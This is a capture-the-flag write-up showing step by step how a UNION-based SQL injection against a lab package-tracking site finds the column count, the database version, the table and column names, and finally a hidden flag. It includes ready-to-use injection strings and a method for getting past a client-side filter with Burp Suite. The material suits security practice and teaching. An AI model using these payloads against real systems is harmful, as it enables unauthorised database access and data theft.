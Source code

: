 VULNERABILITY :- SQL-INJECTION (SQLi) USING UNION

The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

5. Enter the id with SQL syntax below

(Note: For the first time only insert one null because want to try and error till get 6 columns that needed)
    
```
-1' UNION SELECT null,null,null,null,null,null-- 
```

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

```
-1' UNION SELECT null,null,null,null,null,@@version-- 
```

8. After get the version and what type of the database, we can figure out how their syntax to enter. Find out how to list all the databases and enter next command:

```
-1' UNION SELECT null,null,null,null,null,TABLE_NAME FROM information_schema.tables-- 
```

9. It will list out all tables that available and found w0wg00d that look suspicious.
10. After that need to list out all the columns that available by entering the command below:

```
-1' UNION SELECT null,null,null,null,null,COLUMN_NAME FROM information_schema.columns-- 
```

11. From both information we get, we can retrieve all data from other table by entering command below and found the flag

```
-1' UNION SELECT null,null,null,null,null,f0undM3 FROM w0wg00d-- 
```

